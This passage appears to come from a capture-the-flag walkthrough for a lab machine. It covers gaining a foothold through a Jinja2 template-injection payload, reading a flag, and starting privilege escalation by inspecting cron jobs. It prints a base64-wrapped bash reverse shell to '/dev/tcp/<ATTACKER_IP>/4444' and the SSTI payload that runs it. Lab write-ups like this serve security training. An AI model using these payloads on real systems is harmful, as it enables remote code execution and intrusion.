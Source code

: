 ```
$ echo "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1" | base64
```

Then copy and paste the Base64 encoded output into our payload on `super.thm:7777/debugger` and prepend `echo` to the Base64 encoded string then append `| base64 -d` which will pipe the Base64 encoded string and decode it, then pipe the decoded command to `bash` with `| bash`:

`{{ self.__init__.__globals__.__builtins__.__import__("os").popen("echo <BASE64_ENCODED_STRING> | base64 -d | bash").read() }}`

And to get the reverse shell we have to visit `super.thm:7777/debuggeresult` which will cause the page to hang, but if we check our listener we should have a connection from the victim machine:

![0628c5953b704cca76dfad3c1efa2ac1.png](/resources/a54f5226cd8746368095acc81f501e5c.png)

We can get the first flag in `/home/ayham/flag1.txt`:

![681f641b9d2bf3cd25d11d969b65c7a5.png](/resources/cdd9f46a9edb4b6fbc962ec35dc37f25.png)

If we check the root directory `/` we find a `.dockerenv` file which might mean we are in a docker container and a text file `secret-tip.txt`:

![bd5206e7abf2147b214e6aa9d3e1324e.png](/resources/557d83a5abf34a2a878c0277baf78208.png)

```
$ cat secret-tip.txt
A wise *gpt* once said ...
In the depths of a hidden vault, the mastermind discovered that vital ▒▒▒▒▒ of their secret ▒▒▒▒▒▒ had vanished without a trace. They knew their ▒▒▒▒▒▒▒ was now vulnerable to disruption, setting in motion a desperate race against time to recover the missing ▒▒▒▒▒▒ before their ▒▒▒▒▒▒▒ unraveled before their eyes.
So, I was missing 2 .. hmm .. what were they called? ... I actually forgot, anyways I need to remember them, they're important. The past/back/before/not after actually matters, follow it!
Don't forget it's always about root!
```

# Privilege Escalation

### \[-] F30s\@482cbf2305ae

Checking `/etc/crontab` reveals two scheduled tasks that run every minute:

```
$ cat /etc/crontab
```

![c3f941bbeca075626738bad0fe2897fd.png](/resources/bff99f3a296141a39a42135e989354af.png)

`root` is running `curl` with the `-K` option which uses the configuration at `/home/F30s/site_check`.

`F30s` is running `bash` with the `-lc` option which runs the command `cat /home/F30s/healthcheck` as a login shell.
